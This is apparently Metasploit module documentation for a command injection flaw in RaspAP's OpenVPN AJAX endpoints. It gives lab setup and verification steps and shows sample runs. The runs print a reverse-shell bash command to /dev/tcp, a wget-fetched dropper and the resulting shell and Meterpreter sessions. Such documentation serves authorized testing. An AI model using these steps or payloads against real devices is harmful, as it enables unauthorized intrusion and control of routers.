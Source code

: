 ## Vulnerable Application

RaspAP is feature-rich wireless router software that just works
on many popular Debian-based devices, including the Raspberry Pi.

A Command injection vulnerability in RaspAP versions 2.8.0 thru 2.8.7 allows
unauthenticated attackers to execute arbitrary commands via the cfg_id
parameter in /ajax/openvpn/activate_ovpncfg.php and /ajax/openvpn/del_ovpncfg.php.

This Metasploit exploit module targets a command injection vulnerability (CVE-2022-39986) in RaspAP's web-gui PHP project,
The vulnerability affects versions of `RaspAP` between `2.8.0` and `2.8.7`. By exploiting this flaw, an attacker can execute
arbitrary commands. This issue was discovered and reported by Ismael0x00.
Check [here](https://medium.com/@ismael0x00/multiple-vulnerabilities-in-raspap-3c35e78809f2) for the original writeup.

## Testing
For installing the vulnerable version follow the steps below,
1. Follow the manual installation steps given [here](https://docs.raspap.com/manual/)
2. After setting up the service, navigate to the `/var/www/html` directory
3. Do `git checkout 2.8.0` for switching to the vulnerable version

**Note: Project can also be installed inside a ubuntu/debian docker containers**

## Verification Steps

1. msfconsole
2. Do: `use exploit/unix/http/raspap_rce`
3. Do: `set RHOST [IP]`
4. Do: `set RPORT [PORT]`
5. Do: `check`

## Options

## Scenarios

```
msf6 > use exploit/unix/http/raspap_rce 
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(unix/http/raspap_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(unix/http/raspap_rce) > set lhost 172.17.0.1
lhost => 172.17.0.1
msf6 exploit(unix/http/raspap_rce) > set lport 4444
lport => 4444
msf6 exploit(unix/http/raspap_rce) > run

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing Unix Command with bash -c '0<&121-;exec 121<>/dev/tcp/172.17.0.1/4444;sh <&121 >&121 2>&121'
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.17.0.2:52490) at 2023-08-10 00:38:57 +0200

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uname -a
Linux d9db1face4f0 6.4.7-hardened1-2-hardened #1 SMP PREEMPT_DYNAMIC Wed, 02 Aug 2023 11:05:52 +0000 x86_64 GNU/Linux

```

```
msf6 > use exploit/unix/http/raspap_rce 
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(unix/http/raspap_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(unix/http/raspap_rce) > set lhost 172.17.0.1
lhost => 172.17.0.1
msf6 exploit(unix/http/raspap_rce) > set target 1
target => 1
msf6 exploit(unix/http/raspap_rce) > run

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper
[*] Using URL: http://172.17.0.1:8080/cH0NvADRgGYZoL
[*] Client 172.17.0.2 (Wget/1.21) requested /cH0NvADRgGYZoL
[*] Sending payload to 172.17.0.2 (Wget/1.21)
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (172.17.0.1:4444 -> 172.17.0.2:48940) at 2023-08-10 00:37:27 +0200
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

meterpreter > getuid 
Server username: www-data
meterpreter > sysinfo 
Computer     : 172.17.0.2
OS           : Debian 11.6 (Linux 6.4.7-hardened1-2-hardened)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
